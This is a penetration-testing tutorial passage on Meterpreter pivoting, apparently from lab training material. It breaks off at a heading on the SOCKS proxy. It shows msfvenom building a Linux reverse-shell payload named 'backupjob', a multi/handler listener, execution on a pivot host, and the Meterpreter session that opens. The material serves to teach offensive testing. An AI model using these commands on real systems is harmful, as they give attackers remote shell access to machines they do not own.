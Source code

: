 ## Run SSH without -D and -R, Metasploit without proxychains 
## Meterpreter Tunneling & Port Forwarding

#### We have a shell in meterpreter instead of SSH. Here we learn how to use Pivoting, Tunneling & Port Forwarding on meterpreter.
#### Creating Payload for Ubuntu Pivot Host

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: backupjob
```
#### Configuring & Starting the multi/handler

```bash
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
lport => 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:8080 
```

We can copy the `backupjob` binary file to the Ubuntu pivot host `over SSH` and execute it to gain a Meterpreter session.
#### Executing the Payload on the Pivot Host

```bash
ls

backupjob
chmod +x backupjob 
./backupjob
```
#### Meterpreter Session Establishment

```bash
[*] Sending stage (3020772 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:8080 -> 10.129.202.64:39826 ) at 2022-03-03 12:27:43 -0500
meterpreter > pwd

/home/ubuntu
```
#### Configuring MSF's SOCKS Proxy
